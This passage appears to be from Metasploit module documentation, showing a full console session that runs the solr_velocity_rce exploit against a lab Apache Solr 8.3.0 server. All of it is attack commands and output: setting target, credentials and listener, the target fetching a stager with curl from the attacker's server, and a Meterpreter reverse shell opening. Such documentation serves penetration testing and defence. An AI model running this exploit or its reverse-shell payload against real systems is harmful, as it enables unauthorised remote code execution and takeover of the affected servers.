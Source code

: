 ```
```

### Bitnami Solr VM 8.3.0, requiring basic authentication, using CmdStager, with payload `linux/x86/meterpreter/reverse_tcp`
```
msf5 > use exploit/multi/http/solr_velocity_rce 
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 1
TARGET => 1
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444 
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Using URL: http://0.0.0.0:8080/PDeRPN1t
[*] Local IP: http://192.168.137.128:8080/PDeRPN1t
[*] Client 192.168.137.129 (curl/7.52.1) requested /PDeRPN1t
[*] Sending payload to 192.168.137.129 (curl/7.52.1)
[*] Sending stage (985320 bytes) to 192.168.137.129
[*] Meterpreter session 18 opened (192.168.137.128:4444 -> 192.168.137.129:48604) at 2020-03-29 00:23:13 +0800
[*] Command Stager progress - 100.00% done (149/149 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.137.129
OS           : Debian 9.11 (Linux 4.9.0-11-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```